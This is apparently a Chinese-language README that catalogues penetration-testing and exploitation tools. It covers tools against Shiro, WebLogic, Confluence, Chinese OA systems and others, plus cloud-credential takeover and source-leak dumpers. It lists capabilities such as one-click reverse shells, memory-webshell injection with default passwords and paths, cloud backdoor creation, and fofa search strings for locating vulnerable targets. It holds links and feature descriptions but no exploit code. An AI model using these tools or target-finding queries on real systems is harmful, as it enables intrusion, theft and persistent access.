Spring Data Commons RCE (CVE-2018-1273)的检测以及利用
实现heapdump解密功能，并且支持模糊查询
```



```
SpringBootExploit
一款针对SpringBootEnv页面进行快速漏洞利用
SnakeYAMLRCE
SpELRCE
EurekaXstreamRCE
JolokiaLogbackRCE
JolokiaRealmRCE
H2DatabaseConsoleJNDIRCE
SpringCloudGatewayRCE
```



# Shiro 反序列化漏洞综合利用工具

## 项目地址

```
https://github.com/SummerSec/ShiroAttack2
```

```
https://github.com/sma11new/Pyke-Shiro
```

## 项目介绍

```
ShiroAttack2shiro反序列化漏洞综合利用,包含（回显执行命令/注入内存马）修复原版中NoCC的问题 https://github.com/j1anFen/shiro_attack
javafx
处理没有第三方依赖的情况
支持多版本CommonsBeanutils的gadget
支持内存马
采用直接回显执行命令
添加了更多的CommonsBeanutils版本gadget
支持修改rememberMe关键词
支持直接爆破利用gadget和key
支持代理
添加修改shirokey功能（使用内存马的方式）可能导致业务异常
支持内存马小马
添加DFS算法回显（AllECHO）
支持自定义请求头，格式：abc:123&&&test:123
```



```
Pyke-Shiro：复杂请求下的Shiro反序列化利用工具
复杂请求可以是GET或POST，所有请求信息会被携带，可指定https，同时可选择是否保留原始数据包中的Cookie内容
假设前台输入的cookieFlag是rememberMe

复杂请求下如果勾选保留Cookie，两种情况：
	一、请求包中有cookie，两种情况：
	   1、原始cookie内容中包含rememberMe，两种情况：
			a）原始cookie只有rememberMe一项，则无需保留，直接返回cookie payload
			b）原始cookie除了rememberMe还有其他项，则需要保留其它项，添加rememberMe的值为cookie payload
	   2、原始cookie中不包含rememberMe，直接拼接cookie payload即可
	二、请求包中没cookie，不存在需要保留的内容，直接返回cookie payload
```



# 若依 RuoYi 综合漏洞利用工具

## 项目地址

```
Ruoyi-All-1.0-SNAPSHOT这个工具是一个大佬写的没放github上，需要的可以去原作者公众号：小黑说安全，获取
https://mp.weixin.qq.com/s/HU1OqZ7YFGjfc4HE3M8tPA
```

```
https://github.com/charonlight/RuoYiExploitGUI
```

## 项目介绍



```
RuoYiExploitGUI_v1.0
若依最新定时任务SQL注入可导致RCE漏洞的一键利用工具, 扫描和漏洞利用结束会自行删除所创建的定时任务。
```



# Xxl-job漏洞利用工具

## 项目地址

```
https://github.com/charonlight/xxl-jobExploitGUI
```

## 项目介绍

```
工具实现了XXL-JOB默认accessToken权限绕过漏洞的单个检测、批量检测、一键反弹shell功能，后续会持续更新优化，添加POC检测等。
```



# Jboss 综合漏洞利用工具

## 项目地址

```
jbosss综合利用工具by:小黑
同样与上面Ruoyi-All-1.0-SNAPSHOT   RuoYi综合漏洞利用工具出自同一个作者
https://mp.weixin.qq.com/s/O0sMwNHRZKn4G4uJC55YlQ
```

```
https://github.com/fupinglee/JavaTools/tree/master/JBoss
```

## 项目介绍



```
JBoss相关漏洞的验证工具，包括有CVE-2006-5750,CVE-2007-1036,CVE-2010-0738,CVE-2010-1871,CVE-2013-4810,CVE-2015-7501,CVE-2017-7504,CVE-2017-12149等漏洞。

CVE-2010-1871,CVE-2013-4810,CVE-2015-7501,CVE-2017-7504,CVE-2017-12149可以执行命令。
```



# Weblogic 综合漏洞利用工具

## 项目地址

```

https://github.com/KimJun1010/WeblogicTool
```

## 项目介绍

```
WeblogicTool，GUI漏洞利用工具，支持漏洞检测、命令执行、内存马注入、密码解密等
CVE-2023-21931（JNDI）
CVE-2023-21839（JNDI）
CVE-2020-2551（JRMP）
CVE-2020-2551
CVE-2020-2555
CVE-2020-2883
CVE-2020-14882 未授权访问
CVE-2018-2894
CVE-2018-2628（JRMP）
CVE-2018-2893（JRMP）
CVE-2018-3245（JRMP）
CVE_2018_3252（JRMP）
CVE_2018_3191
CVE-2016-3510
CVE-2016-0638
CVE-2017-10271
CVE-2017-3248（JRMP）
CVE-2015-4852
......
```



# Tomcat 综合漏洞利用工具

## 项目地址

```
https://github.com/tpt11fb/AttackTomcat
```

```
https://github.com/errors11/TomcatVuln
```

## 项目介绍

```
AttackTomcat
检测漏洞清单
CVE-2017-12615 PUT文件上传漏洞 tomcat-pass-getshell 弱认证部署war包 弱口令爆破 CVE-2020-1938 Tomcat 文件读取/包含
```







# 帆软反序列化漏洞利用工具

## 项目地址

```
https://github.com/yecp181/Frchannel
```

```
https://github.com/BambiZombie/FrchannelPlus
```

## 项目介绍

```
1. 本工具仅用于本地模拟环境测试, 适用于FineBI

2. 漏洞路径: /webroot/decision/remote/design/channel

3. 本工具支持jackson、hibernate、cb反序列化链来进行回显与注入内存马

4. 利用DNSLOG功能时在输入命令处输入例如：blo6bz.dnslog.cn
```

<br />



```

帆软bi反序列化漏洞利用工具PLUS，将原版的冰蝎内存马换成了哥斯拉，增加了suo5内存马
```



# 云资产 AK-SK 利用管理工具

## 项目地址

```
https://github.com/dark-kingA/cloudTools
```

## 项目介绍

```
云资产管理工具 目前工具定位是云安全相关工具，目前是两个模块 云存储工具、云服务工具， 
云存储工具主要是针对oss存储、查看、删除、上传、下载、预览等等 
云服务工具主要是针对rds、服务器的管理，查看、执行命令、接管等等

阿里云：接管控制台、取消接管、Oss增删改查、远程命令执行回显、历史命令记录查看、子用户列表、云数据库管理、告警管理
腾讯云：接管控制台、取消接管、Oss增删改查、远程命令执行回显、子用户列表
华为云：接管控制台、取消接管、子用户列表
ucloud：接管控制台、主机查询、子用户列表查看、主用户查看、订单查看
AWS: 接管控制台、创建后门、子用户列表、策略列表 后门信息
```



# Confluence 综合漏洞利用工具

## 项目地址

```
https://github.com/Lotus6/ConfluenceMemshell
```

## 项目介绍

```
ConfluenceMemshell
Confluence CVE 2021，2022，2023 利用工具，支持命令执行，哥斯拉，冰蝎 内存马注入

支持 Confluence 版本：CVE-2021-26084，CVE-2022-26134，CVE_2023_22515，CVE-2023-22527
(如果对您有帮助，感觉不错的话，请您给个大大的 ⭐️❗️)
哥斯拉默认密码：pass ，默认key：key ，请求配置 - 协议头 需加上 Connection: close
冰蝎默认密码：rebeyond，默认UA：Accept-Language:zh-CN,zh;q=0.95,n-AS,fr-RF
只有 CVE-2022-26134 版本支持哥斯拉，冰蝎自定义密码，其他版本都是默认密码
V1.1版本

新增 CVE_2023_22515，用户创建，内存马注入，基于 CmdShell 的命令执行
table 双击复制当前行，shell路径，key，ua
哥斯拉 memshell 地址：url+/plugins/servlet/com/atlassian/TeamManageServlet
哥斯拉默认密码：pass ，默认key：key ，请求配置 - 协议头 需加上 Connection: close
CmdShell 地址:url+/plugins/servlet/com/atlassian/TeamManageServlet?team=whoami
```



# 数据库综合利用工具

## 项目地址

```
https://github.com/SafeGroceryStore/MDUT
```

```
https://github.com/team-ide/teamide
```

## 项目介绍

```
MDUT（Multiple Database Utilization Tools）是中国一款集成了多种主流数据库类型的跨平台数据库利用工具。
在前身SQLTOOLS的基础上，开发了该程序（向SQLTOOLS致敬），旨在将常见的数据库利用方法集成到一个程序中，打破了各种数据库利用工具需要各种环境并造成相当不便的障碍。
此外，该工具使用JAVAFx作为GUI操作界面，美观。
同时，该程序还支持多个数据库同时运行，每个数据库都是相互独立的，这极大地方便了网络安全工作者的使用。
```



```
Team IDE 集成MySql、Oracle、金仓、达梦、神通等数据库、SSH、FTP、Redis、Zookeeper、Kafka、Elasticsearch、Mongodb、小工具等管理工具
Team · IDE 功能模块
终端
配置SSH连接，连接远程服务器 完成
SSH支持rz、sz命令，rz支持批量上传 完成
支持本地终端 完成
支持节点终端 完成
Zookeeper
支持单机、集群，增删改查等操作，批量删除等 完成
Kafka
对Kafka主题增删改查等操作 完成
选择主题，推送、消费、删除数据等 完成
Redis
Redis Key搜索、模糊查询、删除、新增等 完成
字符串、哈希、列表、集合值编辑 完成
Elasticsearch
索引增删改查等操作 完成
选择索引，增删改查数据等 完成
添加索引，设置字段，索引迁移等 完成
Database
数据库库|用户|模式列表、表数据加载 完成
数据库库表数据增删改查、批量新增、修改、删除等操作 完成
表格选择数据导出SQL（新增、修改、删除数据SQL）等操作 完成
自定义SQL执行面板，结果查看器 完成
新建库，在线设计表，查看建表、更新表SQL语句 完成
支持数据库，MySql、Oracle、达梦、金仓、神通、Sqlite、ODBC等数据库 完成
节点
可以配置多服务器之间网络透传，内外网相互透传等 完成
小工具
JSON、Yaml转换 完成
时间长转换 完成
Base64、MD5等 完成
二维码生成 完成
Thrift
添加thrift模块，配置thrift文件目录 完成
展示所有thrift服务、方法等 完成
双击方法运行测试 完成
性能测试，测试报告，图表展示TPS、AVG、Min、Max、T90、T99等 完成
SSH隧道
Mysql、Redis、Zookeeper支持SSH隧道连接，选择SSH后，填写127.0.0.1则连接到SSH本地相应资源 完成
Mongodb
库管理 完成
集合管理 完成
集合索引编辑 完成
集合数据查询、新增、修改、删除 完成
```



# DecryptTools 综合加解密后渗透工具

## 项目地址

```
https://github.com/wafinfo/DecryptTools
```

## 项目介绍

```
DecryptTools综合解密
一款针对加解密综合利用后渗透工具
工具展示
支持22种加解密+密码查询功能
万户OA
用友NC
金蝶EAS
蓝凌OA
致远OA
宏景ERP
湖南强智
金和jc6 瑞友天翼
金和C6 Navicat
华天动力 FinalShell
亿赛通
帆软报表
H3C CAS
Weblogic
金蝶云星空
新华三IMC
金盘 OPAC
海康威视IVMS 8700
海康威视IP Camera
海康威视综合安防平台(iSecure) (支持全平台)
JBOSS
SpringEnc
Druid
密码查询功能
```



# 互联网厂商 API 利用工具

## 项目地址

```
https://github.com/pykiller/API-T00L
```

```
https://github.com/mrknow001/API-Explorer
```

## 项目介绍

```
针对互联网各大API泄露的利用工具，包含钉钉、企业微信、飞书等

```



```
工具初衷是做一个小程序、公众号、企业微信、飞书、钉钉等泄露secert后利用工具，后来发现几家接口有一定区别，认证等参数分布在不同位置，索性就做成一个比较通用的工具了。目前可以定义：请求类型、url、header、body、正则提取认证token、接口参数说明。
 API-Explorer是一款管理api接口的工具，可提前配置好接口，直接调用即可；可定义数据包任何位置内容，使用起来相当灵活。

应用	功能	数据库接口
微信公众号	支持	完成部分常用功能
微信小程序	支持	完成部分常用功能
企业微信	支持	完成部分常用功能
钉钉	理论支持	无
飞书	支持	完成部分常用功能
腾讯地图	支持	完成部分常用功能
高德地图	支持	完成部分常用功能
百度地图	支持	完成部分常用功能
钉钉无测试接口，写了也不知道效果，所以目前没有写。
```



# OA 综合漏洞利用工具

## 项目地址

```
https://github.com/R4gd0ll/I-Wanna-Get-All
```

```
https://github.com/achuna33/MYExploit
```

```
https://mp.weixin.qq.com/s/1MEkYv5A47DJLCKqXKT0zQ
```

```
https://github.com/xiaokp7/TongdaOATool
```

## 项目介绍

```
介绍
目前集成288漏洞，包括nday、1day（未公开poc）

java环境 java version "1.8.0_121" Java(TM) SE Runtime Environment (build 1.8.0_121-b13) Java HotSpot(TM) 64-Bit Server VM (build 25.121-b13, mixed mode)

基于Apt-T00ls二次开发工具，I Wanna Get All 安全工具, 严禁一切未授权漏洞扫描攻击

使用工具或文章转发用于其他途径，请备注作者及工具地址来源。

使用工具前建议判断系统指纹框架，部分漏洞为接口探测存活判断是否成功，实际利用情况以执行情况为准
1. 用友serial漏洞大部分为接口探测，请ATT根据实际情况进行判断
    2. 部分漏洞为确保准确性，请先进行检测，再进行点击执行利用
    3. 使用ALL进行漏洞探测时，由于多线程等其他原因会产生误报
    4. 文件上传漏洞，上传文件后执行进行上传，并使CMD栏为空，请先检测尝试上传后再利用
    5. 命令执行漏洞利用CMD写入命令后进行执行。
    6. 清屏按钮可清除除URL地址外所有信息
    7. 根据执行结果提示并选择其他模块利用
    8. POC模块目前集成poc情况共近230余个，包含至今HVV、goby纰漏漏洞(因poc集中管理可能出现误报，请配置代理抓包判断)，如下:
       (1).用友NC&反序列化接口----------------------------------fofa:title="YONYOU NC"
       (2).用友GRP--------------------------------------------fofa:app="yonyou-GRP-U8"
       (3).用友NCCloud----------------------------------------fofa:body="nccloud"
       (4).用友tplus------------------------------------------fofa:app="畅捷通-TPlus"
       (5).用友U8C--------------------------------------------fofa:app="用友-U8-Cloud"
       (6).用友ufida------------------------------------------fofa:body="ufida.ico"
       (7).泛微Ecology----------------------------------------fofa:app="泛微-协同办公OA"
       (8).泛微Emobile----------------------------------------fofa:title="移动管理平台-企业管理"
       (9).泛微Eoffice----------------------------------------fofa:app="泛微-EOffice"
       (10).蓝凌OA--------------------------------------------fofa:app="Landray-OA系统"
       (11).蓝凌EIS-------------------------------------------fofa:app="Landray-EIS智慧协同平台"
       (12).万户OA--------------------------------------------fofa:body="/defaultroot/"
       (13).致远A6A8------------------------------------------fofa:app="致远互联-OA"
       (14).致远MServer---------------------------------------fofa:body="/mobile_portal/"
       (15).致远yyoa------------------------------------------fofa:body="yyoa" && app="致远互联-OA"
       (16).通达OA--------------------------------------------fofa:app="TDXK-通达OA"
       (17).帆软组件-------------------------------------------fofa:"Powered by 帆软"
       (18).金蝶Apusic----------------------------------------fofa:header="Apusic"
       (19).金蝶EAS-------------------------------------------fofa:app="Kingdee-EAS"
       (20).金蝶云OA------------------------------------------fofa:app="金蝶云星空-管理中心"
       (21).金和OA--------------------------------------------fofa:app="金和网络-金和OA"
       (22).红帆OA--------------------------------------------fofa:app="红帆-ioffice"
       (23).宏景HCM--------------------------------------------fofa:app="HJSOFT-HCM"
       (24).亿赛通---------------------------------------------fofa:app="亿赛通-电子文档安全管理系统"
       (23).飞企互联-------------------------------------------fofa:app="FE-协作平台"

MemShell模块
    1. 支持冰蝎3.0、哥斯拉、蚁剑、suo5、cmdecho、neoReGeorg、自定义内存马
    2.  支持输出源码、Base64、hex、gzip格式payload
    3. 用友NC反序列化 集成接口反序列化（测试环境）
    4.  用友U8C反序列化 集接口反序列化（测试环境）
    5. 亿赛通XStream反序列化 集接口反序列化（测试环境）
    6.  用友NC内存马支持bypass脏数据传入，默认为100字节
```





```
该工具获取请关注原作者公众号：琴音安全
```



# 信息泄露利用工具

## Swagger API 信息泄露利用工具

### 项目地址

```
https://github.com/jayus0821/swagger-hack
```

```
https://github.com/lijiejie/swagger-exp
```

### 项目介绍

```
Swagger-hack 2.0
自动化爬取并自动测试所有swagger接口
第一个版本仅适配了一个版本的swagger，不同版本见差距比较大，后续又调查了很多版本的swagger，将脚本的适配性增强了很多

优化：

适配多个版本swagger
添加多进程
增强了程序的健壮性
优化了控制台显示，生成日志文件
```



```
Swagger API Exploit 1.2
这是一个 Swagger REST API 信息泄露利用工具。 主要功能有：

遍历所有API接口，自动填充参数
尝试 GET / POST 所有接口，返回 Response Code / Content-Type / Content-Length ，用于分析接口是否可以未授权访问利用
分析接口是否存在敏感参数，例如url参数，容易引入外网的SSRF漏洞
检测 API认证绕过漏洞
在本地监听一个Web Server，打开Swagger UI界面，供分析接口使用
使用Chrome打开本地Web服务器，并禁用CORS，解决部分API接口无法跨域请求的问题
当工具检测到HTTP认证绕过漏洞时，本地服务器拦截API文档，修改path，以便直接在Swagger UI中进行测试
```



## Heapdump敏感信息提取工具

### 项目地址

```
https://github.com/whwlsfb/JDumpSpider
```

```
https://github.com/wyzxxz/heapdump_tool
```

### 项目介绍

```
JDumpSpider
HeapDump敏感信息提取工具
暂支持提取以下类型的敏感信息

数据源
SpringDataSourceProperties
WeblogicDataSourceConnectionPoolConfig
MongoClient
AliDruidDataSourceWrapper
HikariDataSource
配置文件信息
MapPropertySource
OriginTrackedMapPropertySource
MutablePropertySource
ConsulPropertySource
OSS（模糊搜索）
Redis配置
RedisStandaloneConfiguration
JedisClient
ShiroKey
CookieRememberMeManager
模糊搜索用户信息
UserPassSearcher01


$ java -jar .\target\JDumpSpider-1.0-SNAPSHOT-full.jar              
Missing required parameter: '<heapfile>'
Usage: JDumpSpider [-hV] <heapfile>               
Extract sensitive information from heapdump file.   
      <heapfile>   Heap file path.                
  -h, --help       Show this help message and exit.   
  -V, --version    Print version information and exit.

```

## .git 泄漏利用工具

### 项目地址

```
https://github.com/BugScanTeam/GitHack
```

### 项目介绍

```
GitHack
.git 泄漏利用工具，可还原历史版本

依赖
不需要安装其它 Python 库，只需要有 git 命令

git
ubuntu/debian: $ apt-get install git
redhat/centos: $ yum install git
windows git-for-windows下载
使用前需确保 git 在 环境变量中

使用方法
python GitHack.py http://www.example.com/.git/
还原后的文件在 dist/ 目录下

工作流程
尝试获取 packs克隆
尝试目录遍历克隆
尝试从缓存文件(index)、commit记录中恢复
```

## SVN源代码利用工具

### 项目地址

```
https://github.com/admintony/svnExploit
```

### 项目介绍

```
SvnExploit是一款SVN源代码利用工具，其完美支持SVN<1.7版本和SVN>1.7版本的SVN源代码泄露

python .\svnExploit.py -u http://192.168.27.128/unit-2/lab3/.svn/
 ____             _____            _       _ _
/ ___|_   ___ __ | ____|_  ___ __ | | ___ (_) |_
\___ \ \ / / '_ \|  _| \ \/ / '_ \| |/ _ \| | __|
 ___) \ V /| | | | |___ >  <| |_) | | (_) | | |_
|____/ \_/ |_| |_|_____/_/\_\ .__/|_|\___/|_|\__|
                            |_|
SvnExploit - Dump the source code by svn
Author: AdminTony (http://admintony.com)
https://github.com/admintony/svnExploit


+--------------------+----------+------------------------------------------------+
|       文件名       | 文件类型 |                    CheckSum                    |
+--------------------+----------+------------------------------------------------+
|      conn.php      |   file   | $sha1$8f47ccbd4a436aa4f31018fea026275f6059ed10 |
|       trunk        |   dir    |                      None                      |
|      branches      |   dir    |                      None                      |
|  admin_login.php   |   file   | $sha1$a6981b1ca963c8a75e133e38780be7ff0cd60952 |
|     phpmyadmin     |   file   | $sha1$6d5af41c175e344ee483732648edc9318b2a6014 |
|     README.TXT     |   file   | $sha1$c5981462cc06422f4a78e68f0a48dddcf5860eb9 |
|     README.txt     |   file   | $sha1$ef4b5f3081dbac31f9fb089aafd60dd2b9474b51 |
|     secret.php     |   file   | $sha1$2e6a7a6976d31847f0eebf7bbc252bcc1ff4f609 |
|     README.md      |   file   | $sha1$466f5ab1e4adfd373a23f639e0dd8fcfdce7874b |
| img/login_bg01.jpg |   file   | $sha1$311efc58c4d7035a54fdb8e94d6ba901c56354fd |
|        img         |   dir    |                      None                      |
|     index.php      |   file   | $sha1$4660847a73ab0906d91841dde9576bd5054b2020 |
|      test.sql      |   file   | $sha1$096a90da3e471a472874413b18cb2f5dd0567fd1 |
|     admin.php      |   file   | $sha1$f444d3aad996577872ac7b95a2c05aa11e6b1f8f |
|      document      |   dir    |                      None                      |
|        tags        |   dir    |                      None                      |
+--------------------+----------+------------------------------------------------+
```

## .DS_Store文件泄露利用工具

### 项目地址

```
https://github.com/lijiejie/ds_store_exp
```

### 项目介绍

```
ds_store_exp
.DS_Store文件泄露漏洞。

它解析.DS_Store文件并以递归方式下载文件。

这是一个 .DS_Store 文件泄漏利用脚本，它解析.DS_Store文件并递归地下载文件到本地。
ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

hd.zj.qq.com/
└── themes
    └── galaxyw
        ├── app
        │   └── css
        │       └── style.min.css
        ├── cityData.min.js
        ├── images
        │   └── img
        │       ├── bg-hd.png
        │       ├── bg-item-activity.png
        │       ├── bg-masker-pop.png
        │       ├── btn-bm.png
        │       ├── btn-login-qq.png
        │       ├── btn-login-wx.png
        │       ├── ico-add-pic.png
        │       ├── ico-address.png
        │       ├── ico-bm.png
        │       ├── ico-duration-time.png
        │       ├── ico-pop-close.png
        │       ├── ico-right-top-delete.png
        │       ├── page-login-hd.png
        │       ├── pic-masker.png
        │       └── ticket-selected.png
        └── member
            ├── assets
            │   ├── css
            │   │   ├── ace-reset.css
            │   │   └── antd.css
            │   └── lib
            │       ├── cityData.min.js
            │       └── ueditor
            │           ├── index.html
            │           ├── lang
            │           │   └── zh-cn
            │           │       ├── images
            │           │       │   ├── copy.png
            │           │       │   ├── localimage.png
            │           │       │   ├── music.png
            │           │       │   └── upload.png
            │           │       └── zh-cn.js
            │           ├── php
            │           │   ├── action_crawler.php
            │           │   ├── action_list.php
            │           │   ├── action_upload.php
            │           │   ├── config.json
            │           │   ├── controller.php
            │           │   └── Uploader.class.php
            │           ├── ueditor.all.js
            │           ├── ueditor.all.min.js
            │           ├── ueditor.config.js
            │           ├── ueditor.parse.js
            │           └── ueditor.parse.min.js
            └── static
                ├── css
                │   └── page.css
                ├── img
                │   ├── bg-table-title.png
                │   ├── bg-tab-say.png
                │   ├── ico-black-disabled.png
                │   ├── ico-black-enabled.png
                │   ├── ico-coorption-person.png
                │   ├── ico-miss-person.png
                │   ├── ico-mr-person.png
                │   ├── ico-white-disabled.png
                │   └── ico-white-enabled.png
                └── scripts
                    ├── js
                    └── lib
                        └── jquery.min.js

21 directories, 48 files
```

## .cvs源代码泄露利用工具

### 项目地址

```
https://github.com/kost/dvcs-ripper
```

### 项目介绍

```
dvcs-ripper
翻录 Web 可访问（分布式）版本控制系统：SVN、GIT、Mercurial/hg、bzr、...

即使关闭目录浏览，它也可以翻录存储库。
确保将自己定位在要下载/克隆存储库的空目录中。
 Support for brute forcing pack names
 Intelligent guessing of packed refs
 Support for objects/info/packs from https://www.kernel.org/pub/software/scm/git/docs/gitrepository-layout.html
 Recognize 404 pages which return 200
 Introduce ignore SSL/TLS verification in SVN/CVS
 Bzr support
```

## Webpack安全检测的扫描工具

### 项目地址

```
https://github.com/rtcatc/Packer-Fuzzer
```

### 项目介绍

```
Packer Fuzzer
一款针对Webpack等前端打包工具所构造的网站进行快速、高效安全检测的扫描工具
本工具支持自动模糊提取对应目标站点的API以及API对应的参数内容，并支持对：未授权访问、敏感信息泄露、CORS、SQL注入、水平越权、弱口令、任意文件上传七大漏洞进行模糊高效的快速检测。在扫描结束之后，本工具还支持自动生成扫描报告，您可以选择便于分析的HTML版本以及较为正规的doc、pdf、txt版本。
```

# 工具合集整理

以上所有工具都附上了下载地址,如果不想一一下载,这里已经打包好以上所有工具,公众号后台发送:**漏洞利用工具**,即可获取工具包


最后再次申明:

> 此合集所有工具都来源于互联网公开收集整理，请勿从事非法测试！！！在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。利用此工具集而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与原作者及收集者无关。该仅供安全人员用于授权测试，请勿非法使用！！！除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具集。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
>
> 注：工具集有些工具杀软会报毒，请自行判断是否存在后门，收集作者未加入任何后门！！！，建议在本地虚拟机中使用。
欢迎关注本公众号，每日更新最新漏洞情报:


## Star History

[](https://star-history.com/#onewinner/VulToolsKit&Date)
